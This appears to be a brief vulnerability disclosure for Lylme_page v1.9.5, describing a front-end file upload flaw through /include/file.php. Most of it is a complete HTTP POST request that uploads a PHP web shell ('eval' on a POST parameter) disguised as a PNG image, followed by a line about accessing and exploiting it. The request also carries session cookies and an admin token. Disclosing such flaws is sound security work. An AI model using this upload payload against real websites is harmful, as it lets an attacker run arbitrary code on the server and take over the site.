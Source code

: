 Lylme_pagev1.9.5 has a file upload vulnerability in the front-end of the website.

In the/apply/index.php directory, grab packages uploaded from website icons, and construct it accordingly

![image-20240506161607812](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240506161607812.png)

```
POST /include/file.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest
Origin: http://127.0.0.1
Accept: application/json, text/javascript, */*; q=0.01
Cookie: X8Kk_2132_logintime=1713010988; X8Kk_2132_saltkey=sb50OXyE; X8Kk_2132_lastvisit=1713007324; XDEBUG_SESSION=PHPSTORM; admin_hkcms_lang=zh-cn; index_hkcms_lang=zh-cn; HKCMSSESSID=e0594fc037c66b2dcc477b032c98de35; PHPSESSID=jbl3he9k1riq937d993fc7luhi; admin_token=32cffj4RQkD5uVfTy3J25h8COeBWUDMFyPZMgE%2BSw2eAI1O%2FgJsuTSHq0vIvSxsREnWeNg59eXDvZU%2F6gdzPT3acrQ
Content-Type: multipart/form-data; boundary=---------------------------207262699182048909098055515
Sec-Fetch-Mode: cors
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: empty
Sec-Fetch-Site: same-origin
Referer: http://127.0.0.1/apply/
Content-Length: 237

-----------------------------207262699182048909098055515
Content-Disposition: form-data; name="file"; filename="mm.php"
Content-Type: image/png

<?php eval($_POST[1]);?>
-----------------------------207262699182048909098055515--

```

![image-20240506161508365](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240506161508365.png)

Access and exploit this vulnerability

![image-20240506161502190](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240506161502190.png)
